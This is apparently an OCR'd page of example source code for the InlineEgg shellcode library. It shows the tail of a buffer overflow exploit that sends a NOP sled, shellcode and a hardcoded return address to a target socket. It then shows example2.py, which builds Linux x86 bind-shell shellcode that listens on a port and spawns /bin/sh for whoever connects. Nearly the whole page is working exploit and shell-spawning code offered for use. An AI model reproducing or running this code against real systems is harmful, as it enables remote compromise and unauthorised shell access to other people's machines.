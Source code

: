    # connect to target
   sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   sock.connect((sys.argv[1], int(sys.argv[2])))

   # create egg
   egg = stdinShellEgg()

   # exploit
   retAddr = struct.pack('<L',0xbffffc24L)
   toSend  = "\x90"*(1024-len(egg))
   toSend += egg.getCode()
   toSend += retAddr*20

   sock.send(toSend)

main()
---------------------------------------------------------

uhm... do you want "bind shellcode", the following egg listen on port 3334:

--- example2.py -----------------------------------------
#!/usr/bin/python

from inlineegg.inlineegg import *
import socket
import struct
import sys

def listenShellEgg(listen_addr, listen_port):

#   egg = InlineEgg(FreeBSDx86Syscall)
#   egg = InlineEgg(OpenBSDx86Syscall)
   egg = InlineEgg(Linuxx86Syscall)

   # bind to port and listen
   sock = egg.socket(socket.AF_INET,socket.SOCK_STREAM)
   sock = egg.save(sock)                      # save the socket in a variable (in stack)
   egg.bind(sock, (listen_addr, listen_port)) # sock is now the variable, and it's used from the stack
   egg.listen(sock,1)

   client = egg.accept(sock, 0, 0)
   client = egg.save(client)
   egg.close(sock)

   egg.dup2(client, 0)
   egg.dup2(client, 1)
   egg.dup2(client, 2)
   egg.execve('/bin/sh',('bash','-i'))
